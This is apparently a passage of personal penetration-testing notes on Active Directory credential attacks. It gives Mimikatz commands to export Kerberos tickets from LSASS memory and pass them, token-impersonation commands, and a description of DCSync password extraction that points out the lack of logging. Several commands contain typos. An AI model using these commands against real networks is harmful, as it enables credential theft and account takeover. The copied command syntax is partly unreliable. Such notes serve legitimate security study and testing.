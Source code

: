 ```
LsaCallAuthenticationPackage/KerbRetrieveEncodedTicketMessage
LsaCallAuthenticationPackage/KerbSubmitTicketMessage
```

```
mimikatz > kerberos::list [/export]
mimikatz > kerberos::ptt ticket
```

- For all users in LSASS memory:

```
privilege::debug
sekurlsa::tickets export
kerberos:ptt <ticket.kirbi>
```

### Token Manipulation

- `Invoke-TokenManipulation` / `Incognito` for impersonation 
- Admin privileges are required to adjust token prilileges 
- Can also use `Mimikatz`
- New process with token of given user: `Invoke-TokenManipulation -ImpresonateUser -Username "domain/user"`
- New process with token of another process: `Invoke-TokenManupulation -CreateProcess "C:\Windows\system32\WindowsPowerShell\v1.0\PowerShell.exe" -ProcessId 500"`

### DCSyc

- Used to sync AD to Azure
- Can be used to get credentials from AD
  - If `reverse encryption` is enabled for an account, clear text password can be obtained.
- Needs Administrator or Domain Controller rights
- By default, no logs since this is done through official RPC (remotely)
- Implemented by: Mimikatz (lsadump:dcsync), Impacket, DSInternals

![image-20190611062259293](_assets/image-20190611062259293.png)
